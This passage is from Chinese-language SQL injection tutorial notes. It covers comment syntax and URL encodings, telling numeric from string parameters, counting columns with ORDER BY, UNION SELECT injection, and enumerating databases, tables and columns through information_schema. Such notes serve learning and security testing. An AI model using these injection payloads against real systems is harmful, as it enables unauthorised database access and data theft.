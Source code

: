 ```
/*
这是注释，支持多行
*/
-- 这也是注释
## 这还是注释
```
##### 其他

- 一些常用的URL编码:  
Space: %20  
\#: 	%23  
':	%27  
":	%22  
+:	%2B  
`#+$-_.!*()` 浏览器地址栏默认不编码，但是不意味着不能编码

#### 注入技巧

##### 判断为数字型还是字符型

```sql
传入id=2-1
如果是数字型，语句应该变为：
SELECT col_name(…) FROM table_name WHERE id = 2-1 
等价于：
SELECT col_name(…) FROM table_name WHERE id = 1 
那么就应该能正常返回id=1的页面！
而如果是字符型，语句应该变为：
SELECT col_name(…) FROM table_name WHERE id = '2-1'
会因为查询不到内容
```

##### 联合查询

```sql
SELECT field1, …, fieldN FROM table_name UNION SELECT field1*, …, fieldN* FROM table_name*;
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT DATABASE(), USER(),  
```
但利用联合查询前需要保证前后列数相同，我们也需要判断原sql查询的列数
我们可以尝试构造
```sql
SELECT col_name1, …, col_name FROM table_name WHERE id = 1 ORDER BY M;
```

M<=N时，能有正常的返回
M>N时会报错
从而可以判断查询的列数！

当然，一个个试也可以
```sql
SELECT col_name1, …, col_name FROM table_name WHERE id = 1 UNION SELECT 1, 2, …;
```

在MySQL中，所有的数据库名存放在information_schema.schemata的schema_name字段下
```sql
SELECT schema_name FROM information_schema.schemata;

所有的表名存放在information_schema.tables的table_name字段下，可以以table_schema为条件筛选
SELECT table_name FROM information_schema.tables WHERE table_schema='db_name';

所有的列名存放在information_schema.columns的column_name字段下，可以以table_schema和table_name为条件筛选
SELECT column_name FROM information_schema.columns WHERE table_name='table_name' AND table_schema='db_name';

可以构造
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata;
```